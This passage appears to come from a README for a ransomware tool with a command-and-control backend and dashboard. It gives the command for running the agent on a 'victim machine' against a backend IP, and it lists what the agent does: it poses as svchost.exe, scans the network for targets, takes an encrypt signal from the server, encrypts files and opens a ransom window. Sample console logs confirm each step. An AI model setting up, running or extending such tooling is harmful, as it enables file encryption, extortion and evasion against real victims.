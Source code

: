 **Browser Console:**
```
Socket.IO connecting to http://localhost:8080
Connected!
```

---

### **Step 3: Start an Agent (Victim Machine)**

```bash
# On Windows VM or test machine
cd C:\Users\user\py_sample
python py_simple\agent_sync.py --backend http://YOUR_BACKEND_IP:8080

# Example:
python py_simple\agent_sync.py --backend http://192.168.1.100:8080
```

**What happens:**
1. Agent masquerades as `svchost.exe` or similar
2. Scans network for targets
3. Registers with backend: POST /publickey
4. Gets device_token
5. Connects via Socket.IO
6. Authenticates with device_token
7. Backend sets `pending_encrypt=True`
8. Backend auto-sends `'process'` event
9. Agent encrypts files + launches ransom window

**Agent Console:**
```
[client] Process name set to: svchost.exe
[client] Initiating network reconnaissance...
[client] Network scan complete: 3 active targets found
[client] Received device token: abc123...
[client] Connected to server, authenticating…
[client] Authenticated.
[client] Received ENCRYPT signal – starting file processing…
[client] Processed files: 15
[client] Ransom window launched
```

---

## 🎮 Frontend Usage

### **View Connected Devices:**
1. Open http://localhost:8080
2. Look at left sidebar
3. Devices appear automatically when agents connect
4. Green dot = Online, Gray dot = Offline
